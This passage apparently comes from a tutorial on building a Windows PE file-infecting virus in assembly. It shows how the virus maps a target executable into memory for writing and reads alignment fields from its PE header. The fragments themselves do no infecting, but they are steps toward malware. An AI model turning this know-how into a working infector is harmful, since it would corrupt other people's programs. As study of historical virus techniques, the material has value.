 ```nasm{numberLines:true}
  mov eax, [targetFileHandle]
  call CreateFileMappingA, \
         eax,\                 ; file handle
         0h,\                  ; sec attributes (not used)
         PAGE_READWRITE,\      ; attributes
         0h,\                  ; size high
         0h,\                  ; size low
         0h                    ; name (null for no name)
  cmp eax, 0h
  je findnext
  mov [targetMapHandle], eax

  ; Map the entire targetFile into memory
  call MapViewOfFile, \
    eax,\                      ; mapping object handle
    FILE_MAP_WRITE,\           ; access
    0h,\                       ; offset high
    0h,\                       ; offset low
    0h                         ; number of bytes to map (0 for all)
  cmp eax, 0h
  je findnext
  mov [targetP], eax
```

## Offsets to check

With the file memory mapped it's possible to check whether it can be infected by examining key offsets within the DOS and PE headers. Initially when I was looking at example PE infector source code from this era I found most were using numeric offsets as magic numbers throughout the code. For example, here's one snippet I found that copies the file and section alignment from a PE header using numeric offsets:

```nasm{numberLines:true}
;falignvalue will contain the FileAlignment
;and salignvalue will contain the SectionAlignment
mov eax, [ebx + 3Ch]
mov [ebp + falignvalue], eax
mov eax, [ebx + 38h]
mov [ebp + salignvalue], eax
```

I'm not sure if this is because programmers were often ripping working assembly from viruses found in the wild missing source level context or if it was just how people did it at the time. Either way I found it made code that was difficult to 
read.

Life was much easier when I used my assembler's ability to define structures. TASM/MASM both support the `STRUCT` keyword for this. If there was a `STRUCT` for the PE header and its optional header then the section and file alignment fields could be accessed without using numeric offsets like `0x3C` and `0x38`:

```nasm{numberLines:true}
;falignvalue will contain the FileAlignment
;and salignvalue will contain the SectionAlignment
mov eax, (IMAGE_NT_HEADERS [ebx]).OptionalHeader.FileAlignment
mov [ebp + falignvalue], eax
mov eax, (IMAGE_NT_HEADERS [ebx]).OptionalHeader.SectionAlignment
mov [ebp + salignvalue], eax
```
